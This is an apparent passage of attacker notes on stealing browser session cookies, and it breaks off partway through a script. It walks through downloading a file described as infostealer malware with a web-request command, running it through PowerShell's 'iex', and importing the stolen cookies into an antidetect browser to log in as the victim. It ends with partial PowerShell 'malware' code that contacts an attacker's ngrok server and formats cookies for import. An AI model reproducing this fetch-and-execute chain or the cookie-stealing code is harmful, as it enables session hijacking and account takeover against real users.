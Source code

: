 Then download the file:

Add the malware file path with "iwk" command:

![[Pasted image 20241212233922.png]]

![[Pasted image 20241212233901.png]]

And add "iex" to execute all the powershell code for that infostealer malware:

![[Pasted image 20241212234015.png]]
![[Pasted image 20241212234109.png]]


copy all of that:

Then download: [Antidetect Browser for Multi Accounting, Try for Free | GoLogin.com](https://gologin.com/)

Go to the cookie section and paste the code:

![[Pasted image 20241212234736.png]]

![[Pasted image 20241212234453.png]]

And if you go to the specific domain where you fetched the cookies from, you should be already looged in:

![[Pasted image 20241212234834.png]]

An example code for the malware:   




```powershell
# Define the server URL (replace with your ngrok URL)
$serverUrl = "http://<your_ngrok_subdomain>.ngrok.io"

# Initialize the Netscape cookies string
$netscapeCookies = "Netscape HTTP Cookie File" + "`n"

# Function to fetch cookies from the server
function Get-CookiesFromServer {
    param (
        [string]$url
    )

    # Create a web request to the server
    $webRequest = [System.Net.WebRequest]::Create($url)
    $webRequest.Method = "GET"

    # Get the response
    $response = $webRequest.GetResponse()
    $cookies = $response.Headers["Set-Cookie"]

    # Parse the cookies and format them in Netscape format
    foreach ($cookie in $cookies) {
        $cookieParts = $cookie.Split(";")
        $cookieNameValue = $cookieParts[0].Split("=")
        $cookieName = $cookieNameValue[0]
        $cookieValue = $cookieNameValue[1]
        $hostname = "." + $url.Replace("http://", "").Replace("https://", "").Split("/")[0]
        $path = "/"
        $isSecure = if ($cookieParts -contains "Secure") { "TRUE" } else { "FALSE" }
        $expiry = "0"  # Set to 0 for session cookies

```